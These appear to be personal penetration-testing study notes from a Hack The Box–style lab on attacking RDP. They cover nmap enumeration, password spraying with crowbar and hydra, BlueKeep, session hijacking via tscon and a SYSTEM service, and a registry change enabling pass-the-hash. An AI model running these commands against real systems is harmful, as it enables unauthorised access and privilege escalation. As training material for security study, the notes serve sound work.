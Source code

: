 ### Footprinting  RDP
```shell-session
agdy3660@htb[/htb]$ nmap -sV -sC 10.129.201.248 -p3389 --script rdp*

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-enum-encryption: 
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
| rdp-ntlm-info: 
|  
```
Nmap can leave cookie traces that can be found by threat hunters and EDRs.

A Perl script named [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) has also been developed by [Cisco CX Security Labs](https://github.com/CiscoCXSecurity) that can unauthentically identify the security settings of RDP servers based on the handshakes.
#### Initiate an RDP Session
connect to RDP servers on Linux using `xfreerdp`, `rdesktop`, or `Remmina` and interact with the GUI of the server accordingly.
```shell-session
xfreerdp /u:cry0l1t3 /p:"P455w0rd!" /v:10.129.201.248
```


Check pass pol before spraying rdp
```
nxc pass-pol
```
modify wordlists

run  crowbar
```shell-session
# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
with hydra
```shell-session
 hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

new rdp tool
```shell-session
# rdesktop -u admin -p password123 192.168.2.143
```
# Vulnerabilities (BLUEKEEP)
In 2019, a critical vulnerability was published in the RDP (`TCP/3389`) service that also led to remote code execution (`RCE`) with the identifier [CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708). This vulnerability is known as `BlueKeep`.

the exploitation of this vulnerability led and still leads to many malware or ransomware attacks. Large organizations such as hospitals, whose software is only designed for specific versions and libraries, are particularly vulnerable to such attacks, as infrastructure maintenance is costly. Here, too, we will not go into minute detail about this vulnerability but rather keep the focus on the concept.

the vulnerability does not require user authentication to be triggered. Instead, the vulnerability occurs after initializing the connection when basic settings are exchanged between client and server. This is known as a [Use-After-Free](https://cwe.mitre.org/data/definitions/416.html) (`UAF`) technique that uses freed memory to execute arbitrary code.

Note: This is a flaw that we will likely run into during our penetration tests, but it can cause system instability, including a "blue screen of death (BSoD)," and we should be careful before using the associated exploit. If in doubt, it's best to first speak with our client so they understand the risks and then decide if they would like us to run the exploit or not.

# PRIOR TO SERVER 2019
## Protocol Specific Attacks

#### RDP Session Hijacking
if we successfully gain access to a machine and have an account with local administrator privileges. If a user is connected via RDP to our compromised machine, we can hijack the user's remote desktop session to escalate our privileges and impersonate the account.

To successfully impersonate a user without their password, 
- we need to have `SYSTEM` privileges   
- specifying which `SESSION ID` (`4` for the `lewen` session in our example), to hjack
-  what session name were going to connect to  (`rdp-tcp#13`, which is our current session). So, for example, the following command will open a new console as the specified `SESSION_ID` within our current RDP session:	

examples:

```cmd-session
 query user
```

```cmd-session
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```


![[rdp_session-1-2.jpg|600x400]]

### With Admin Privileges (method of service running as SYSTEM)
If we have local administrator privileges, we can use several methods to obtain `SYSTEM` privileges, such as [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz). A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges. We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, 
- we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `sessionhijack` will be created.
```cmd-session
query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM
```


```cmd-session
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```
START THE SERVICE:
```cmd-session
net start sessionhijack
```
![[rdp_session-3-2.jpg|500]]
. With this new account, we can attempt to discover what kind of privileges it has on the network, and maybe we'll get lucky, and the user is a member of the Help Desk group with admin rights to many hosts or even a Domain Admin.
_Note: This method no longer works on Server 2019._
## RDP Pass-the-Hash (PtH) 

### Restricted admin bypass
```cmd-session
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access: